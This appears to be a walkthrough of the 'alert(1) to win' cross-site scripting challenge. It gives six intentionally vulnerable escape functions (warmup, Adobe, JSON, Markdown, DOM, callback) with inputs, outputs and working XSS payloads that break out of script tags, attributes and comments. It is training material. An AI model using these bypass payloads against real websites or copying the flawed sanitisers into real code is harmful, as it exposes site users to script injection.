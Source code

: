 # alert-1-to-win
Exercises of alert(1) to win with payloads and procedure 
***Exercise 1. WARMUP - There isn't sanitization

	function escape(s) {
 	 return '<script>console.log("'+s+'");</script>';
	}

	First tests
		Input  	test
		Output 	<script>console.log("test");</script>

	We have to close console.log with ")

	All this payload Works

	Input  	")</script><script>alert(1)</script>
	Output 	<script>console.log("")</script><script>alert(1)</script>");</script>

	Input		")</script><script>alert(1)//
	Output		<script>console.log("")</script><script>alert(1)//");</script>

	Input		");</script><script>alert(1)//
	Output		<script>console.log("");</script><script>alert(1)//");</script>

	We can reduce the payload

	Input		");alert(1)//
	Output		<script>console.log("");alert(1)//");</script>
	
	Input		",alert(1),"
	Output		<script>console.log("",alert(1),"");</script>
	
	Input		");alert(1,"
	Output		<script>console.log("");alert(1,"");</script>
	
	
***Exercise 2. ADOBE - Where " is encoded to \"	
	
	function escape(s) {
  	 s = s.replace(/"/g, '\\"');
 	 return '<script>console.log("' + s + '");</script>';
	}

	We have to close console.log with ")

	All this payload Works

	Input		")</script><script>alert(1)//	
	Output		<script>console.log("\")</script><script>alert(1)//");</script>

	Input		")</script><script>alert(1)</script>
	Output		<script>console.log("\")</script><script>alert(1)</script>");</script>
	
	Input		")</script><script>alert(1);//
	Output		<script>console.log("\")</script><script>alert(1);//");</script>

	We can reduce the payload

	Input		\");alert(1)//
	Output		<script>console.log("\\");alert(1)//");</script>

	

***Exercise 3. JSON- Where " is encoded to \"
	function escape(s) {
  	   s = JSON.stringify(s);
  	   return '<script>console.log(' + s + ');</script>';
	}
	
	https://developer.mozilla.org/en-US/docs/Web/JavaScript/Reference/Global_Objects/JSON/stringify

	The JSON.stringify() method converts a JavaScript object or value to a JSON string, optionally replacing values if a replacer function is specified or optionally including only the specified properties if a replacer array is specified.

	JSON.stringify escapes double quotes " and the escape character \ , but does not handle < > ' / characters.

	All this payload Works

	Input		</script><script>alert(1)</script>
	Output		<script>console.log("</script><script>alert(1)</script>");</script>

	Input		</script><script>alert(1)//
	Output		<script>console.log("</script><script>alert(1)//");</script>

	Input		")</script><script>alert(1)//
	Output		<script>console.log("\")</script><script>alert(1)//");</script>

***Exercise 4. MARKDOWN- where " encode to &quot; and < encode to &lt;

	function escape(s) {
	  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
	  // URLs
	  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
	  // [[img123|Description]]
	  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
	  return text;
	}

	In the first text.replace relates an http so that it is transformed into an image
	In the second text.replace we can see  (/\[\[(\w+)\|(.+?)\]\]/g that is [[|]]
	We have to use [[a|b]]
	We have to put a url in [[a|b]]
	
	First tests 

	Input 		http://test
	Output		<a href="http://test">http://test</a>

	Input		[[a|b]]	
	Output		<img alt="b" src="a.gif">
	
	Input 		[[http://test|b]]
	Output 	[[<a href="http://test|b]]">http://test|b]]</a>

	Input 		[[a|http://test]]
	Output		<img alt="<a href="http://test" src="a.gif">">http://test]]</a>

	Input 		[[a|http://onerror=alert(1)]]
	Output 	<img alt="<a href="http://onerror=alert(1)" src="a.gif">">http://onerror=alert(1)]]</a>

	We have to add // 
	This payload work

	Input		 [[a|http://onerror=alert(1)//]]
	Output Win	 <img alt="<a href="http://onerror=alert(1)//" src="a.gif">" http://onerror=alert(1)//]]</a>


***Exercise 5. DOM- We have to use ' Pass in something like "TextNode#foo" '

	function escape(s) {
	  // Slightly too lazy to make two input fields.
	  // Pass in something like "TextNode#foo"
	  var m = s.split(/#/);

	  // Only slightly contrived at this point.
	  var a = document.createElement('div');
	  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
	  return a.innerHTML;
	}

	First tests 

	Input		TextNode#foo
	Output 	foo

	Input		TextNode#Hi
	Output 	Hi

	We have to change TextNode to Comment

	Input		Comment#Hi
	Output		<!--Hi-->

	Now we have to add -->

	Input 		Comment#-->
	Output 	<!---->-->

	Nice, Now we have to add a payload
	All this payload Works

	Input		Comment#--><script>alert(1)</script>//
	Output	 Win!	<!----><script>alert(1)</script>//-->

	Input		Comment#--><img/onerror=alert(1) src=x/>
	Output	 Win! 	<!----><img/onerror=alert(1) src=x/>-->

	Input		Comment#><iframe/onload=alert(1)
	Output Win!	<!--><iframe/onload=alert(1)-->


***Exercise 6. CALLBACK

	function escape(s) {
	  // Pass inn "callback#userdata"
	  var thing = s.split(/#/); 

	 if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
	  var obj = {'userdata': thing[1] };
	  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
	  return "<script>" + thing[0] + "(" + json +")</script>";
	}

	thing[0], can use []' in addition to the alphabet. It is possible to enclose unnecessary parts in single quotes and write arbitrary scripts in succession.
	 var thing = s.split(/#/);  split the function

	First tests

	Input		aaaa#bbbb
	Output		<script>aaaa({"userdata":"bbbb"})</script>
	
	' | ; are not encoded

	Input 		'#'alert(1)//
	Output		<script>'({"userdata":"'alert(1)//"})</script>

	All this payload Works

	Input 		'#'|alert(1)//
	Output	 Win!  <script>'({"userdata":"'|alert(1)//"})</script>


	Input		'#';alert(1)//
	Output	 Win!	<script>'({"userdata":"';alert(1)//"})</script>
